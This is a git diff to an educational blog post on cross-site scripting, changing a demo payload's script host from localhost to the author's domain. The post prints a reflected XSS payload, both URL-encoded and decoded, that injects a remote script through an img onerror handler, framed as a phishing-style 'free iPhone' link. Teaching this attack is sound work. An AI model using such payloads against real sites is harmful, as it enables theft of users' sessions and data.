

Fix localhost references in XSS post

diff --git a/content/posts/2020-06-01-xss-post.md b/content/posts/2020-06-01-xss-post.md
@@ -46,7 +46,7 @@ Not a very helpful Search page.
 ...you get an email titled: **FREE 🎁 iPhone giveaway!!!**
 
 You open the email and click the link: **[➡ Claim your free iPhone ⬅](
-https://dsb.victorzhou.com/search?q=%3Cimg%20src%3D%22%23%22%20onerror%3D%22const%20a%3Ddocument.createElement(%27script%27)%3Ba.src%3D%27http%3A%2F%2Flocalhost%3A8000%2Fxss-demo.js%27%3Bdocument.body.appendChild(a)%3B%22%20%2F%3E)**.
+https://dsb.victorzhou.com/search?q=%3Cimg%20src%3D%22%23%22%20onerror%3D%22const%20a%3Ddocument.createElement(%27script%27)%3Ba.src%3D%27https%3A%2F%2Fvictorzhou.com%2Fxss-demo.js%27%3Bdocument.body.appendChild(a)%3B%22%20%2F%3E)**.
 
 > Yes, I actually want you to click this link for the purposes of the demo.
 
@@ -83,19 +83,19 @@ https://dsb.victorzhou.com/search?q=SEARCH_QUERY_HERE
 The value of `SEARCH_QUERY_HERE` was:
 
 ```
-%3Cimg%20src%3D%22%23%22%20onerror%3D%22const%20a%3Ddocument.createElement(%27script%27)%3Ba.src%3D%27http%3A%2F%2Flocalhost%3A8000%2Fxss-demo.js%27%3Bdocument.body.appendChild(a)%3B%22%20%2F%3E
+%3Cimg%20src%3D%22%23%22%20onerror%3D%22const%20a%3Ddocument.createElement(%27script%27)%3Ba.src%3D%27https%3A%2F%2Fvictorzhou.com%2Fxss-demo.js%27%3Bdocument.body.appendChild(a)%3B%22%20%2F%3E
 ```
 
 which [URL decodes](https://www.quora.com/What-is-URL-encoding-and-decoding) to:
 
 ```
-<img src="#" onerror="const a=document.createElement('script');a.src='http://localhost:8000/xss-demo.js';document.body.appendChild(a);" />
+<img src="#" onerror="const a=document.createElement('script');a.src='https://victorzhou.com/xss-demo.js';document.body.appendChild(a);" />
 ```
 
 Look familiar? Let me syntax highlight that for you:
 
 ```html
-<img src="#" onerror="const a=document.createElement('script');a.src='http://localhost:8000/xss-demo.js';document.body.appendChild(a);" />
+<img src="#" onerror="const a=document.createElement('script');a.src='https://victorzhou.com/xss-demo.js';document.body.appendChild(a);" />
 ```
 
 It's an image tag sourced from `"#"`, which errors and runs the Javascript code contained in the `onerror`! Here's the `onerror` code prettified:
